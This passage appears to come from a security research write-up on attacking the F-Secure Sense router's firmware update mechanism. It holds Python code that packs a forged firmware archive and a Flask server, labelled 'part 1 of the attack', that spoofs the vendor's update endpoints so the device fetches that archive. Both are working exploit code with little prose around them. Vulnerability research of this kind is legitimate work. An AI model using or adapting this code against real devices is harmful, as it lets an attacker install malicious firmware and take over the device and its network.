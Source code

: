 ```python
outputfile.write(struct.pack('>I', len(manifest))) #\x00\x00\x18\x1e
outputfile.write('\x42\x5a\x49\x50\x32\x00\x00\x00\x00\x00\x00\x40')
outputfile.write(manifestSHA)
outputfile.write(manifest)
outputfile.write('GUTS2AR1')
outputfile.write(b'\x00\x00\x00\x00')
outputfile.write(struct.pack('>I', len(script)))
outputfile.write('\x42\x5a\x49\x50\x32\x00\x00\x00\x00\x00\x00\x40')
outputfile.write(scriptSHA)
outputfile.write(script)
outputfile.write('GUTS2AR1')
outputfile.write(b'\x00\x00\x00\x00')
outputfile.write(struct.pack('>I', len(bin)))
outputfile.write('\x42\x5a\x49\x50\x32\x00\x00\x00\x00\x00\x00\x40')
outputfile.write(binSHA)
outputfile.write(bin)
outputfile.write('GUTS2AR1')
outputfile.write(b'\x00\x00\x00\x00')
outputfile.write(struct.pack('>I', len(ini)))
outputfile.write('\x42\x5a\x49\x50\x32\x00\x00\x00\x00\x00\x00\x40')
outputfile.write(iniSHA)
outputfile.write(ini)
outputfile.write('GUTS2AR1')
outputfile.close()

print calcSHA256(argv[1])

```

---------------------------------------------------------------

**fw_upgrade.py** - Flask script to execute part 1 of the attack

```python
from flask import Flask
import os

app = Flask(__name__)


@app.route('/f/17aa3e173e5e90b950741390f1d2286fe1028b66710eac1fcfcee93be7851e59_archive', methods = ['GET'])
def fun3():
    x = open('out', 'rb')
    content = x.read()
    x.close()
    return content


@app.route('/o;t=sense-firmware;v=1554196376;c=96c7329d', methods = ['GET'])
def fun2():
    return '{"guts2ar1": {"id": "17aa3e173e5e90b950741390f1d2286fe1028b66710eac1fcfcee93be7851e59_archive", "size": '+str(os.path.getsize('out'))+'}}'
#16706357

@app.route('/h;t=sense-firmware;v=1554196376;c=96c7329d', methods = ['GET'])
def fun():
    return '{"cookie": "96c7329d", "files": [{"filename": "sense-firmware.mf", "sha256": "fe538892b4db5efaa01a65ce88854442c7cf9d8695b571b1b522f22182169612", "size": 10062}, {"filename": "openwrt-rtkmips-rtl8198c-AP-fw.bin", "sha256": "afd39c13d05b41904ac28ccd17a940ccc69d072dffa94c7baaf1aa3e8ad7aacb", "size": 17301508}, {"filename": "sense-firmware.ini", "sha256": "047eb19ca399fe94254667734ef3489b319158237410d425d78a0735a875f9d9", "size": 239}, {"filename": "fsupgrade", "sha256": "a46e6817b25fcd339b43db2b306a6ec9a5613afa9827288217de7346f3ca4e22", "size": 1825}], "title": "F-Secure Sense Firmware Update 2019-06-02_01", "type": "sense-firmware", "version": 1554196376}'
```